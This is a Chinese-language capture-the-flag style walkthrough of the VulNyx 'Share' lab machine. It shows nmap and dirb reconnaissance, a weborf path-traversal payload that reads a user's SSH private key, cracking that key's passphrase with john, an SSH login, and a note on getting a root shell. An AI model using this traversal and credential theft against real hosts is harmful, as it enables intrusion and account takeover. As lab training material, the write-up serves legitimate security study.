








# 环境

来自[Vulny_share](https://vulnyx.com/#Share)，通过已知weborf漏洞拿shell

# 信息收集

## 主机发现

```bash
nmap -sn 192.168.88.0/24
```



## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.42
```



## 服务详解

```bash
sudo nmap -sV -sC -O -p22,80,8080 192.168.88.42
```



## 目录扫描

```bash
dirb http://192.168.88.42
dirb http://192.168.88.42:8080
```

发现没有什么目录

# web渗透

## weborf已知漏洞

访问8080发现是一个weborf搭建的一个目录共享文件，版本是0.12.2

```bash
searchsploit weborf
searchsploit -m 
```



利用已知漏洞的payload进行验证，payload`http://192.168.88.42:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2ftim%2f.ssh%2fid_rsa`



## 爆破私钥密码

```bash
wget http://192.168.88.42:8080/..%2f..%2f..%2f..%2f..%2f..%2f..%2fhome%2ftim%2f.ssh%2fid_rsa -O idtim
ssh2john idtim>idtim2
john idtim2 --wordlist=/usr/share/wordlist/ruckyou.txt
```



## 提权

```bash
chmod 600 idtim #私钥文件权限必须是600
ssh -i idtim tim@192.168.88.42
```



直接执行看看效果，默认都可以执行!sh来获取root


